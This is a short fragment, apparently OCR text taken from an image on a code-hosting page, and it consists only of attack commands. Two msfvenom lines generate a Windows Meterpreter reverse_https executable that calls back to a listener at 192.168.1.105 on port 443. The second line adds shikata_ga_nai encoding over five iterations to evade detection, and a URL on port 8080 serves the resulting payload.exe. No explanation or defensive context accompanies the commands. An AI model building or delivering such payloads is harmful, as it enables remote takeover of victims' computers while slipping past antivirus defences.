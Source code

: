 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/payload.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -e x86/shikata_ga_nai -i 5 -f exe -o payload.exe
http://192.168.1.105:8080/payload.exe
